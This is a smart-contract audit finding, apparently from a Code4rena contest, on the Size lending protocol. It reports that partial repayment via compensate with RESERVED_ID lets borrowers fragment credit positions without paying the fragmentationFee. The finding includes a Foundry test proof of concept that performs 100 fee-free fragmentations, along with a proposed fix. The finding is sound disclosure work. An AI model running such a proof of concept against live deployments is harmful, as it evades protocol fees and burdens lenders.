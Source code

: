 # Medium Severity

## Result => Duplicate of 10


## Lines with Problems
- https://github.com/code-423n4/2024-06-size/blob/main/src/libraries/actions/Compensate.sol#L136

## Title
Borrowers can fragmentate credit without paying the fragmentationFee when partially repaying a DebtPosition via Compensate

## Impact
CreditPositions can be fragmented hundreds, or even thousands of times without paying the fragmentationFee.

## Proof of Concept
This problem is present on the compensate mechanism, specifically, when [`params.creditPositionToCompensateId == RESERVED_ID`](https://github.com/code-423n4/2024-06-size/blob/main/src/libraries/actions/Compensate.sol#L119-L125).
Calling compensate with the RESERVE_ID is meant to be used for borrowers to partially repay their debts, but, this mechanism can be abused by malicious users because the CreditPosition associated to the DebtPosition been compensated can be fragmented many, many times.

Partially repaying a Debt basically creates a new Debt and a Credit position, and the new Credit position is assigned to the same lender of the Debt been repaid. This means, now there will be two CreditPositions for the same debt, or in other words, the Credit of the first CreditPosition was fragmented.
- The problem is that [the compensation mechanism doesn't account for the fragmentation when partially repaying](https://github.com/code-423n4/2024-06-size/blob/main/src/libraries/actions/Compensate.sol#L136), as such, borrowers can partially repay the debt and cause the Original CreditPosition to be fragmented on X amount of new CreditPositions without having to pay the corresponding fragmentationFee for each of these new CreditPositions.

```
function executeCompensate(State storage state, CompensateParams calldata params) external {
  emit Events.Compensate(
      params.creditPositionWithDebtToRepayId, params.creditPositionToCompensateId, params.amount
  );

  ...

  CreditPosition memory creditPositionToCompensate;
  if (params.creditPositionToCompensateId == RESERVED_ID) {
      creditPositionToCompensate = state.createDebtAndCreditPositions({
          lender: msg.sender,
          borrower: msg.sender,
          //@audit-info => `creditPositionToCompensate.credit` will be `amountToCompensate`
          futureValue: amountToCompensate,
          dueDate: debtPositionToRepay.dueDate
      });
  } else {
      creditPositionToCompensate = state.getCreditPosition(params.creditPositionToCompensateId);
      amountToCompensate = Math.min(amountToCompensate, creditPositionToCompensate.credit);
  }

  ...

  //@audit-issue => When `params.creditPositionToCompensateId == RESERVED_ID`, creditPositionToCompensate.credit == amountToCompensate. No fragmentationFee!
  uint256 exiterCreditRemaining = creditPositionToCompensate.credit - amountToCompensate;

  ...

  //@audit-issue => Fragmentation is not considered when partially repaying
  if (exiterCreditRemaining > 0) {
      // charge the fragmentation fee in collateral tokens, capped by the user balance
      ...
  }
}

```

Find below a Coded PoC where a borrower fragmentates the original CreditPosition into a 100 small CreditPositions without paying the fragmentationFee.

### Coded PoC

<details>
<summary><b>Expand to reveel the PoC</b></summary>
<br>

Add the below test in the [`Compenstate.t.sol`](https://github.com/code-423n4/2024-06-size/blob/main/test/local/actions/Compensate.t.sol) test file.

```
function test_FragmentateCreditWithoutPayingFragmentationFees_PoC() public {
    _setPrice(1e18);
    _updateConfig("swapFeeAPR", 0);
    _deposit(alice, usdc, 1500e6);
    _deposit(bob, weth, 2500e18);
    _buyCreditLimit(alice, block.timestamp + 365 days, YieldCurveHelper.pointCurve(365 days, 0.5e18));

    uint256 debtPositionId = _sellCreditMarket(bob, alice, RESERVED_ID, 1000e6, 365 days, false);
    uint256 creditPositionId = size.getCreditPositionIdsByDebtPositionId(debtPositionId)[0];
    uint256 bobCollateralBalanceBefore = size.getUserView(bob).collateralTokenBalance;

    vm.startPrank(bob);
    for(uint i = 1; i <= 100; i++) {
        size.compensate(
            CompensateParams({
                creditPositionWithDebtToRepayId: creditPositionId,
                creditPositionToCompensateId: RESERVED_ID,
                amount: 10e6
            })
        );
    }
    vm.stopPrank();

    CreditPosition[] memory creditPositions = size.getCreditPositions();
    assert(creditPositions.length == 101);
    //@audit => The original credit was fragmented in another 100 extra CreditPositions without paying the corresponding fragmentationFee!
    for(uint i = 1; i < creditPositions.length; i++) {
        assert(creditPositions[i].credit == 10e6);
    }

    assert(creditPositions[0].credit == 500e6);

    uint256 bobCollateralBalanceAfter = size.getUserView(bob).collateralTokenBalance;

    assert(bobCollateralBalanceAfter == bobCollateralBalanceBefore);
}
```

</details>

Run the next command to execute the PoC: `forge test --match-test test_FragmentateCreditWithoutPayingFragmentationFees_PoC -vvvv`

## Tools Used
Manual Audit

## Recommended Mitigation Steps
Since the compensate mechanism doesn't charge any fees other than the fragmentationFee, I'd recommend to implement a minimum partial repayment, for example, 20% of the totalDebt, and, if the borrower decides to pay less than the minimum, charge the fragmentationFee. 
- In this way, malicious borrowers will be dicensentivize from fragmentating the Credit into hundreds or thousands of small credits, and honest borrowers can opt to partially repay at least the minimum amount without paying fragmentationFees.